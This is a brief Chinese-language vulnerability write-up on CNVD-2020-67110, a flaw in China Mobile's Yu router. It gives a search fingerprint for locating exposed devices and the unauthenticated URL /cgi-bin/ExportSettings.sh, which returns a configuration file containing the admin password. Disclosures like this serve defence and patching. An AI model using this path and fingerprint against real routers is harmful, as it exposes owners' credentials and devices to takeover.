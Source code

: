 # 中国移动 禹路由 ExportSettings.sh 敏感信息泄露漏洞 CNVD-2020-67110

# 中国移动 禹路由 ExportSettings.sh 敏感信息泄露漏洞 CNVD-2020-67110

## 漏洞描述

中国移动 禹路由 ExportSettings.sh 存在敏感信息泄露漏洞，攻击者通过漏洞获取配置文件，其中包含账号密码等敏感信息

## 漏洞影响

```
中国移动 禹路由
```

## 网络测绘

```
title="互联世界 物联未来-登录"
```

## 漏洞复现

登录页面如下

![](/images/202202162254794.png)

访问Url

```plain
/cgi-bin/ExportSettings.sh
```

![](/images/202202162254659.png)

其中password为登录后台密码

